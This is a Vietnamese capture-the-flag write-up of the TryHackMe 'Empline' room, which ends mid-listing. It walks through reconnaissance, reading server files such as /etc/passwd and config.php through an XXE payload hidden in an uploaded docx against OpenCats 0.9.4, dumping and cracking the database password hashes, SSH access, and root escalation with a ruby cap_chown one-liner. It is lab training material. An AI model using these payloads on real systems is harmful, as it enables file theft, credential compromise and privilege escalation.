



# TryHackMe - Empline 


> **Mức độ:** Medium  
> **Chủ đề:** Web / Linux  
> **Url:** https://tryhackme.com/room/empline
> **Mô tả:** Khai thác lỗ hổng XXE, capabilities 

---

## Mục lục

- [1. Reconnaissance](#reconnaissance)
- [2. Enumeration](#enumeration)
- [3. Initial Access](#initial+access)
- [4. Privilege Escalation](#privilege+escalation)
- [5. Conclusion](#conclusion)

---

## Reconnaissance

### Nmap

```bash
nmap -sSVC -Pn 10.49.141.50
```

Kết quả :

```
Starting Nmap 7.99 ( https://nmap.org ) at 2026-10-05 13:17 -0400
Nmap scan report for 10.49.141.50
Host is up (0.11s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c0:d5:41:ee:a4:d0:83:0c:97:0d:75:cc:7b:10:7f:76 (RSA)
|   256 83:82:f9:69:19:7d:0d:5c:53:65:d5:54:f6:45:db:74 (ECDSA)
|_  256 4f:91:3e:8b:69:69:09:70:0e:82:26:28:5c:84:71:c9 (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Empline
3306/tcp open  mysql   MariaDB 5.5.5-10.1.48
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.1.48-MariaDB-0ubuntu0.18.04.1
|   Thread ID: 86
|   Capabilities flags: 63487
|   Some Capabilities: FoundRows, Support41Auth, DontAllowDatabaseTableColumn, LongPassword, SupportsLoadDataLocal, Speaks41ProtocolOld, SupportsTransactions, ODBCClient, IgnoreSigpipes, LongColumnFlag, InteractiveClient, SupportsCompression, Speaks41ProtocolNew, ConnectWithDatabase, IgnoreSpaceBeforeParenthesis, SupportsAuthPlugins, SupportsMultipleStatments, SupportsMultipleResults
|   Status: Autocommit
|   Salt: J:";AvOf4pXF8%O?,^w\
|_  Auth Plugin Name: mysql_native_password
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.72 seconds
```

### Tổng hợp 

| Port | Service | Version                         |
| ---- | ------- | ------------------------------- |
| 22   | SSH     | OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 |
| 80   | HTTP    | Apache httpd 2.4.29             |
| 3306 | Mysql   | MariaDB 5.5.5-10.1.48           |

> [!NOTE]
> Dịch vụ Web và Mysql đáng chú ý cần phân tích thêm 

---

## Enumeration

### Web Enumeration

> Liệt kê thư mục ẩn 
```bash
feroxbuster -u http://10.49.141.50/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -t 100 -x php,txt,html -d 2 -C 404
```

Đầu ra:
```
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.13.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.49.141.50/
 🚩  In-Scope Url          │ 10.49.141.50
 🚀  Threads               │ 100
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 💢  Status Code Filters   │ [404]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.13.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [php, txt, html]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 2
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        9l       31w      274c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET        9l       28w      277c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       26l      145w    10590c http://10.49.141.50/assets/images/features-icon-1.png
200      GET       35l      181w    10816c http://10.49.141.50/assets/images/features-icon-2.png
200      GET       16l      190w    10345c http://10.49.141.50/assets/images/about-icon-02.png
200      GET        8l       36w     1074c http://10.49.141.50/assets/js/jquery.counterup.min.js
200      GET      186l      505w     4930c http://10.49.141.50/assets/css/owl-carousel.css
200      GET      246l      593w     6110c http://10.49.141.50/assets/js/custom.js
200      GET      288l      914w    14058c http://10.49.141.50/index.html
200      GET      118l      782w    58265c http://10.49.141.50/assets/images/testimonial-author-1.png
200      GET     1236l     2619w    25028c http://10.49.141.50/assets/css/empline.css
200      GET        7l      662w    58078c http://10.49.141.50/assets/js/bootstrap.min.js
301      GET        9l       28w      317c http://10.49.141.50/javascript => http://10.49.141.50/javascript/
301      GET        9l       28w      313c http://10.49.141.50/assets => http://10.49.141.50/assets/
200      GET       28l      151w    10190c http://10.49.141.50/assets/images/features-icon-3.png
200      GET        4l     1304w    83617c http://10.49.141.50/assets/js/jquery-2.1.0.min.js
200      GET        8l      165w     8051c http://10.49.141.50/assets/js/waypoints.min.js
200      GET       16l      190w    10345c http://10.49.141.50/assets/images/about-icon-03.png
200      GET       16l      190w    10345c http://10.49.141.50/assets/images/about-icon-01.png
200      GET        2l       89w     4572c http://10.49.141.50/assets/js/scrollreveal.min.js
200      GET        1l      233w    19796c http://10.49.141.50/assets/js/imgfix.min.js
200      GET     2322l    10165w    83672c http://10.49.141.50/assets/js/popper.js
200      GET        6l      491w   155764c http://10.49.141.50/assets/css/bootstrap.min.css
200      GET     1437l     2471w    39751c http://10.49.141.50/assets/css/font-awesome.css
200      GET      958l     2663w    93440c http://10.49.141.50/assets/js/owl-carousel.js
200      GET      120l      641w   164931c http://10.49.141.50/assets/images/left-image.png
200      GET      288l      914w    14058c http://10.49.141.50/
301      GET        9l       28w      324c http://10.49.141.50/javascript/jquery => http://10.49.141.50/javascript/jquery/
[####################] - 4m    240148/240148  0s      found:26      errors:331    
[####################] - 4m    120000/120000  485/s   http://10.49.141.50/ 
[####################] - 4m    120000/120000  495/s   http://10.49.141.50/javascript/ 
[####################] - 5s    120000/120000  21922/s http://10.49.141.50/assets/ => Directory listing (add --scan-dir-listings to scan)   
```
Không thu được thông tin gì đáng chú ý 

> Phân tích mã nguồn trang chủ phát hiện tên miền ẩn http://job.empline.thm/careers


Chỉnh sửa file /etc/hosts thêm tên miền phụ kèm địa chỉ IP 

> Liệt kê thư mục ẩn của tên miền job.empline.thm

```
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.13.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://job.empline.thm/
 🚩  In-Scope Url          │ job.empline.thm
 🚀  Threads               │ 100
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 💢  Status Code Filters   │ [404]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.13.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 1
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET        9l       28w      280c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET        9l       31w      277c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301      GET        9l       28w      319c http://job.empline.thm/images => http://job.empline.thm/images/
301      GET        9l       28w      317c http://job.empline.thm/temp => http://job.empline.thm/temp/
301      GET        9l       28w      315c http://job.empline.thm/js => http://job.empline.thm/js/
301      GET        9l       28w      320c http://job.empline.thm/scripts => http://job.empline.thm/scripts/
301      GET        9l       28w      317c http://job.empline.thm/test => http://job.empline.thm/test/
301      GET        9l       28w      317c http://job.empline.thm/ajax => http://job.empline.thm/ajax/
301      GET        9l       28w      319c http://job.empline.thm/upload => http://job.empline.thm/upload/
301      GET        9l       28w      316c http://job.empline.thm/lib => http://job.empline.thm/lib/
301      GET        9l       28w      320c http://job.empline.thm/modules => http://job.empline.thm/modules/
301      GET        9l       28w      316c http://job.empline.thm/rss => http://job.empline.thm/rss/
301      GET        9l       28w      316c http://job.empline.thm/xml => http://job.empline.thm/xml/
301      GET        9l       28w      315c http://job.empline.thm/db => http://job.empline.thm/db/
301      GET        9l       28w      323c http://job.empline.thm/javascript => http://job.empline.thm/javascript/
301      GET        9l       28w      324c http://job.empline.thm/attachments => http://job.empline.thm/attachments/
301      GET        9l       28w      316c http://job.empline.thm/src => http://job.empline.thm/src/
301      GET        9l       28w      320c http://job.empline.thm/careers => http://job.empline.thm/careers/
301      GET        9l       28w      321c http://job.empline.thm/ckeditor => http://job.empline.thm/ckeditor/
301      GET        9l       28w      319c http://job.empline.thm/vendor => http://job.empline.thm/vendor/
200      GET       12l       43w      409c http://job.empline.thm/
301      GET        9l       28w      315c http://job.empline.thm/ci => http://job.empline.thm/ci/
301      GET        9l       28w      317c http://job.empline.thm/wsdl => http://job.empline.thm/wsdl/
[####################] - 39s    30020/30020   0s      found:21      errors:0      
[####################] - 38s    30000/30000   783/s   http://job.empline.thm/ 
```

> Truy cập http://job.empline.thm/


Dịch vụ opencats phiên bản 0.9.4 

---

## Initial Access

### Khai thác lỗ hổng dịch vụ web 
> Từ thông tin về dịch vụ đã biết chạy trên web opencats phiên bản 0.9.4 
> Tìm kiếm phát hiện lỗ hổng XXE 
> https://www.opencats.org/news/2019/july/
> OpenCats gặp phải lỗi xml external entity injection không được xác thực, cho phép người dùng từ xa đọc các tệp trên hệ điều hành cơ bản.
> Chèn thực thể bên ngoài XML (XXE) của OpenCats
> Người dùng từ xa (ứng viên xin việc) có thể tải lên các tệp docx hoặc odt để đọc các tệp trên hệ điều hành cơ bản. Tệp docx sẽ được sử dụng ở đây, nhưng tệp odt cũng có thể được sử dụng vì các hàm dễ bị tổn thương tương tự trong DocumentTotext.php được sử dụng để phân tích cú pháp các tệp này.
> 
> -> Tạo tệp docx, chỉnh sửa nội dung của nó và tải leen qau chức năng upload hồ sơ 

#### Chương trình tạo tệp docx 

Mã nguồn:
```Python
#!/usr/bin/env python 
from docx import Document

print("[+] Chuong trinh tao file docx don gian!")
document = Document()
p = document.add_paragraph("10h37")
document.save("payload.docx")
print("[+] Tao file payload.docx thanh cong!")
```

Tạo tệp payload.docx:

```Bash
└─$ ./createdocx.py
[+] Chuong trinh tao file docx don gian!
[+] Tao file payload.docx thanh cong!
```

#### Khai thác lỗ hổng 

> Giải nén tệp docx 
```Bash
└─$ unzip payload.docx            
Archive:  payload.docx
  inflating: [Content_Types].xml     
  inflating: _rels/.rels             
  inflating: docProps/core.xml       
  inflating: docProps/app.xml        
  inflating: word/document.xml       
  inflating: word/_rels/document.xml.rels  
  inflating: word/styles.xml         
  inflating: word/stylesWithEffects.xml  
  inflating: word/settings.xml       
  inflating: word/webSettings.xml    
  inflating: word/fontTable.xml      
  inflating: word/theme/theme1.xml   
  inflating: customXml/item1.xml     
  inflating: customXml/_rels/item1.xml.rels  
  inflating: customXml/itemProps1.xml  
  inflating: word/numbering.xml      
  inflating: docProps/thumbnail.jpeg  
```

> Chỉnh sửa file word/document.xml để external entity injection
>  - Thêm external entity `<!DOCTYPE payload [<!ENTITY payload SYSTEM 'file:///etc/passwd'>]>`
>  - Tìm phân in nội dung `<w:t></w:t>` và thay đổi thành `<w:t>&payload;</w:t>` để thực thi

```XML
<?xml version='1.0' encoding='UTF-8' standalone='yes'?>
<!DOCTYPE payload [<!ENTITY payload SYSTEM 'file:///etc/passwd'>]>
<w:document xmlns:wpc="http://schemas.microsoft.com/office/word/2010/wordprocessingCanvas" xmlns:mo="http://schemas.microsoft.com/office/mac/office/2008/main" xmlns:mc="http://schemas.openxmlformats.org/markup-compatibility/2006" xmlns:mv="urn:schemas-microsoft-com:mac:vml" xmlns:o="urn:schemas-microsoft-com:office:office" xmlns:r="http://schemas.openxmlformats.org/officeDocument/2006/relationships" xmlns:m="http://schemas.openxmlformats.org/officeDocument/2006/math" xmlns:v="urn:schemas-microsoft-com:vml" xmlns:wp14="http://schemas.microsoft.com/office/word/2010/wordprocessingDrawing" xmlns:wp="http://schemas.openxmlformats.org/drawingml/2006/wordprocessingDrawing" xmlns:w10="urn:schemas-microsoft-com:office:word" xmlns:w="http://schemas.openxmlformats.org/wordprocessingml/2006/main" xmlns:w14="http://schemas.microsoft.com/office/word/2010/wordml" xmlns:wpg="http://schemas.microsoft.com/office/word/2010/wordprocessingGroup" xmlns:wpi="http://schemas.microsoft.com/office/word/2010/wordprocessingInk" xmlns:wne="http://schemas.microsoft.com/office/word/2006/wordml" xmlns:wps="http://schemas.microsoft.com/office/word/2010/wordprocessingShape" mc:Ignorable="w14 wp14"><w:body><w:p><w:r><w:t>&payload;</w:t></w:r></w:p><w:sectPr w:rsidR="00FC693F" w:rsidRPr="0006063C" w:rsidSect="00034616"><w:pgSz w:w="12240" w:h="15840"/><w:pgMar w:top="1440" w:right="1800" w:bottom="1440" w:left="1800" w:header="720" w:footer="720" w:gutter="0"/><w:cols w:space="720"/><w:docGrid w:linePitch="360"/></w:sectPr></w:body></w:document>
```

>Nén lại tệp docx

```Bash 
zip configread.docx ./document/word/document.xml 
```

Kết quả:


> Đọc file cấu hình dịch vụ web 
> - Chỉnh sửa entity để lấy nội dung file config.php và mã hóa base64 

```XML
<?xml version='1.0' encoding='UTF-8' standalone='yes'?>
<!DOCTYPE payload [<!ENTITY payload SYSTEM 'php://filter/convert.base64-encode/resource=config.php'>]>
<w:document xmlns:wpc="http://schemas.microsoft.com/office/word/2010/wordprocessingCanvas" xmlns:mo="http://schemas.microsoft.com/office/mac/office/2008/main" xmlns:mc="http://schemas.openxmlformats.org/markup-compatibility/2006" xmlns:mv="urn:schemas-microsoft-com:mac:vml" xmlns:o="urn:schemas-microsoft-com:office:office" xmlns:r="http://schemas.openxmlformats.org/officeDocument/2006/relationships" xmlns:m="http://schemas.openxmlformats.org/officeDocument/2006/math" xmlns:v="urn:schemas-microsoft-com:vml" xmlns:wp14="http://schemas.microsoft.com/office/word/2010/wordprocessingDrawing" xmlns:wp="http://schemas.openxmlformats.org/drawingml/2006/wordprocessingDrawing" xmlns:w10="urn:schemas-microsoft-com:office:word" xmlns:w="http://schemas.openxmlformats.org/wordprocessingml/2006/main" xmlns:w14="http://schemas.microsoft.com/office/word/2010/wordml" xmlns:wpg="http://schemas.microsoft.com/office/word/2010/wordprocessingGroup" xmlns:wpi="http://schemas.microsoft.com/office/word/2010/wordprocessingInk" xmlns:wne="http://schemas.microsoft.com/office/word/2006/wordml" xmlns:wps="http://schemas.microsoft.com/office/word/2010/wordprocessingShape" mc:Ignorable="w14 wp14"><w:body><w:p><w:r><w:t>&payload;</w:t></w:r></w:p><w:sectPr w:rsidR="00FC693F" w:rsidRPr="0006063C" w:rsidSect="00034616"><w:pgSz w:w="12240" w:h="15840"/><w:pgMar w:top="1440" w:right="1800" w:bottom="1440" w:left="1800" w:header="720" w:footer="720" w:gutter="0"/><w:cols w:space="720"/><w:docGrid w:linePitch="360"/></w:sectPr></w:body></w:document>
```

Kết quả:



Giải mã Base64
```Bash
echo {mã base64} | base64 -d
```



>[!NOTE]
>Lấy được thông tin xác thực dịch vụ MySQL

### MySQL

> Truy cập MySQL từ thông tin xác thực lấy từ file config.php 

```Bash
mysql -h 10.49.149.254 -u james -p --skip-ssl
```

> Trích xuất thông tin CSDL

```Bash
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 110
Server version: 10.1.48-MariaDB-0ubuntu0.18.04.1 Ubuntu 18.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| opencats           |
+--------------------+
2 rows in set (0.162 sec)

MariaDB [(none)]> use opencats
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [opencats]> show tables;
+--------------------------------------+
| Tables_in_opencats                   |
+--------------------------------------+
| access_level                         |
| activity                             |
| activity_type                        |
| attachment                           |
| calendar_event                       |
| calendar_event_type                  |
| candidate                            |
| candidate_joborder                   |
| candidate_joborder_status            |
| candidate_joborder_status_history    |
| candidate_jobordrer_status_type      |
| candidate_source                     |
| candidate_tag                        |
| career_portal_questionnaire          |
| career_portal_questionnaire_answer   |
| career_portal_questionnaire_history  |
| career_portal_questionnaire_question |
| career_portal_template               |
| career_portal_template_site          |
| company                              |
| company_department                   |
| contact                              |
| data_item_type                       |
| eeo_ethnic_type                      |
| eeo_veteran_type                     |
| email_history                        |
| email_template                       |
| extension_statistics                 |
| extra_field                          |
| extra_field_settings                 |
| feedback                             |
| history                              |
| http_log                             |
| http_log_types                       |
| import                               |
| installtest                          |
| joborder                             |
| module_schema                        |
| mru                                  |
| queue                                |
| saved_list                           |
| saved_list_entry                     |
| saved_search                         |
| settings                             |
| site                                 |
| sph_counter                          |
| system                               |
| tag                                  |
| user                                 |
| user_login                           |
| word_verification                    |
| xml_feed_submits                     |
| xml_feeds                            |
| zipcodes                             |
+--------------------------------------+
54 rows in set (0.144 sec)

MariaDB [opencats]> select * from user;
+---------+---------+----------------+----------------------+----------------------------------+--------------+---------------------+--------------+---------------+------------+---------+------------+---------------------------------+---------------------------+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------+-------+------------+------------+-------------+---------+-------+---------+------+-------+----------+---------+------------------+
| user_id | site_id | user_name      | email                | password                         | access_level | can_change_password | is_test_user | last_name     | first_name | is_demo | categories | session_cookie                  | pipeline_entries_per_page | column_preferences                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               | force_logout | title | phone_work | phone_cell | phone_other | address | notes | company | city | state | zip_code | country | can_see_eeo_info |
+---------+---------+----------------+----------------------+----------------------------------+--------------+---------------------+--------------+---------------+------------+---------+------------+---------------------------------+---------------------------+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------+-------+------------+------------+-------------+---------+-------+---------+------+-------+----------+---------+------------------+
|       1 |       1 | admin          | admin@testdomain.com | b67b5ecc5d8902ba59c65596e4c053ec |          500 |                   1 |            0 | Administrator | CATS       |       0 | NULL       | CATS=bfkli2vopigogda9sph95k3mo6 |                        15 | a:6:{s:31:"home:ImportantPipelineDashboard";a:6:{i:0;a:2:{s:4:"name";s:10:"First Name";s:5:"width";i:85;}i:1;a:2:{s:4:"name";s:9:"Last Name";s:5:"width";i:75;}i:2;a:2:{s:4:"name";s:6:"Status";s:5:"width";i:75;}i:3;a:2:{s:4:"name";s:8:"Position";s:5:"width";i:275;}i:4;a:2:{s:4:"name";s:7:"Company";s:5:"width";i:210;}i:5;a:2:{s:4:"name";s:8:"Modified";s:5:"width";i:80;}}s:18:"home:CallsDataGrid";a:2:{i:0;a:2:{s:4:"name";s:4:"Time";s:5:"width";i:90;}i:1;a:2:{s:4:"name";s:4:"Name";s:5:"width";i:175;}}s:39:"candidates:candidatesListByViewDataGrid";a:9:{i:0;a:2:{s:4:"name";s:11:"Attachments";s:5:"width";i:31;}i:1;a:2:{s:4:"name";s:10:"First Name";s:5:"width";i:75;}i:2;a:2:{s:4:"name";s:9:"Last Name";s:5:"width";i:85;}i:3;a:2:{s:4:"name";s:4:"City";s:5:"width";i:75;}i:4;a:2:{s:4:"name";s:5:"State";s:5:"width";i:50;}i:5;a:2:{s:4:"name";s:10:"Key Skills";s:5:"width";i:215;}i:6;a:2:{s:4:"name";s:5:"Owner";s:5:"width";i:65;}i:7;a:2:{s:4:"name";s:7:"Created";s:5:"width";i:60;}i:8;a:2:{s:4:"name";s:8:"Modified";s:5:"width";i:60;}}s:25:"activity:ActivityDataGrid";a:7:{i:0;a:2:{s:4:"name";s:4:"Date";s:5:"width";i:110;}i:1;a:2:{s:4:"name";s:10:"First Name";s:5:"width";i:85;}i:2;a:2:{s:4:"name";s:9:"Last Name";s:5:"width";i:75;}i:3;a:2:{s:4:"name";s:9:"Regarding";s:5:"width";i:125;}i:4;a:2:{s:4:"name";s:8:"Activity";s:5:"width";i:65;}i:5;a:2:{s:4:"name";s:5:"Notes";s:5:"width";i:240;}i:6;a:2:{s:4:"name";s:10:"Entered By";s:5:"width";i:60;}}s:37:"companies:CompaniesListByViewDataGrid";a:9:{i:0;a:2:{s:4:"name";s:11:"Attachments";s:5:"width";i:10;}i:1;a:2:{s:4:"name";s:4:"Name";s:5:"width";i:255;}i:2;a:2:{s:4:"name";s:4:"Jobs";s:5:"width";i:40;}i:3;a:2:{s:4:"name";s:4:"City";s:5:"width";i:90;}i:4;a:2:{s:4:"name";s:5:"State";s:5:"width";i:50;}i:5;a:2:{s:4:"name";s:5:"Phone";s:5:"width";i:85;}i:6;a:2:{s:4:"name";s:5:"Owner";s:5:"width";i:65;}i:7;a:2:{s:4:"name";s:7:"Created";s:5:"width";i:60;}i:8;a:2:{s:4:"name";s:8:"Modified";s:5:"width";i:60;}}s:37:"joborders:JobOrdersListByViewDataGrid";a:12:{i:0;a:2:{s:4:"name";s:11:"Attachments";s:5:"width";i:10;}i:1;a:2:{s:4:"name";s:2:"ID";s:5:"width";i:26;}i:2;a:2:{s:4:"name";s:5:"Title";s:5:"width";i:170;}i:3;a:2:{s:4:"name";s:7:"Company";s:5:"width";i:135;}i:4;a:2:{s:4:"name";s:4:"Type";s:5:"width";i:30;}i:5;a:2:{s:4:"name";s:6:"Status";s:5:"width";i:40;}i:6;a:2:{s:4:"name";s:7:"Created";s:5:"width";i:55;}i:7;a:2:{s:4:"name";s:3:"Age";s:5:"width";i:30;}i:8;a:2:{s:4:"name";s:9:"Submitted";s:5:"width";i:18;}i:9;a:2:{s:4:"name";s:8:"Pipeline";s:5:"width";i:18;}i:10;a:2:{s:4:"name";s:9:"Recruiter";s:5:"width";i:65;}i:11;a:2:{s:4:"name";s:5:"Owner";s:5:"width";i:55;}}} |            0 |       |            |            |             | NULL    | NULL  | NULL    | NULL | NULL  | NULL     | NULL    |                0 |
|    1250 |     180 | cats@rootadmin | 0                    | cantlogin                        |            0 |                   0 |            0 | Automated     | CATS       |       0 | NULL       | NULL                            |                        15 | NULL                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |            0 |       |            |            |             | NULL    | NULL  | NULL    | NULL | NULL  | NULL     | NULL    |                0 |
|    1251 |       1 | george         |                      | 86d0dfda99dbebc424eb4407947356ac |          400 |                   1 |            0 | Tasa          | George     |       0 | NULL       | NULL                            |                        15 | NULL                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |            0 |       |            |            |             | NULL    | NULL  | NULL    | NULL | NULL  | NULL     | NULL    |                0 |
|    1252 |       1 | james          |                      | e53fbdb31890ff3bc129db0e27c473c9 |          200 |                   1 |            0 | Gynja         | James      |       0 | NULL       | NULL                            |                        15 | NULL                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |            0 |       |            |            |             | NULL    | NULL  | NULL    | NULL | NULL  | NULL     | NULL    |                0 |
+---------+---------+----------------+----------------------+----------------------------------+--------------+---------------------+--------------+---------------+------------+---------+------------+---------------------------------+---------------------------+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------+-------+------------+------------+-------------+---------+-------+---------+------+-------+----------+---------+------------------+
4 rows in set (0.145 sec)
```

Lấy được 2 mã băm MD5 của 2 người dùng george và james 

> Dùng công cụ crack hash kết quả chỉ crack được mã băm password của george 


>Dùng thông tin xác thực của geogre truy cập máy mục tiêu qua SSH và thành công xâm nhập và thu được user flag 

```Bash
george@empline:~$ whoami
george
george@empline:~$ id
uid=1002(george) gid=1002(george) groups=1002(george)
george@empline:~$ ls -al
total 20
drwxrwx--- 4 george george 4096 Oct  5 19:17 .
drwxr-xr-x 4 root   root   4096 Jul 20  2021 ..
drwx------ 2 george george 4096 Oct  5 19:17 .cache
drwx------ 3 george george 4096 Oct  5 19:17 .gnupg
-rw-r--r-- 1 root   root     33 Jul 20  2021 user.txt
george@empline:~$ cat user.txt 
91cb89c70aa2e5ce0e0116dab099078e
```


---

## Privilege Escalation
>[!NOTE]
>Sau khi liệt kê, phân tichs hệ thống thì hệ thống tồn tại 1 file có quyền thực thi đặc biệt cap 
>Dùng nó để leo thang đặc quyền 

Liệt kê các file có quyền thực thi đặc biệt :

```Bash
getcap -r / 2>/dev/null
```

Kết quả: 

```Bash
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/local/bin/ruby = cap_chown+ep
```
> /usr/local/bin/ruby có cap_chown có thể dùng nó thay đổi quyền sở hữu 1 thư mục tệp (/etc/passwd, /root,...)
> Ở đây tôi chỉ thay dổi quyền /root để đọc flag chứ không sở hữu 1 shell root
> Nếu muốn có shell root có thể thay dổi chủ sở hữu /etc/passwd từ đó tạo tài khoản quyền root 

Thay đổi quyền /root 1002 là UID,GID của geogre:

```bash
ruby -e 'require "fileutils"; FileUtils.chown(1002, 1002, "/root")'
```

Kết quả:

```bash
george@empline:/$ ls -al
total 92
drwxr-xr-x  24 root   root    4096 Oct  5 18:34 .
drwxr-xr-x  24 root   root    4096 Oct  5 18:34 ..
drwxr-xr-x   2 root   root    4096 Jun 23  2021 bin
drwxr-xr-x   3 root   root    4096 Jun 23  2021 boot
drwxr-xr-x  15 root   root    3640 Oct  5 18:33 dev
drwxr-xr-x  98 root   root    4096 Jul 20  2021 etc
drwxr-xr-x   4 root   root    4096 Jul 20  2021 home
lrwxrwxrwx   1 root   root      34 Jun 23  2021 initrd.img -> boot/initrd.img-4.15.0-147-generic
lrwxrwxrwx   1 root   root      34 Jun 23  2021 initrd.img.old -> boot/initrd.img-4.15.0-147-generic
drwxr-xr-x  21 root   root    4096 Jun 23  2021 lib
drwxr-xr-x   2 root   root    4096 Jun 23  2021 lib64
drwx------   2 root   root   16384 Jun 23  2021 lost+found
drwxr-xr-x   2 root   root    4096 Jun 23  2021 media
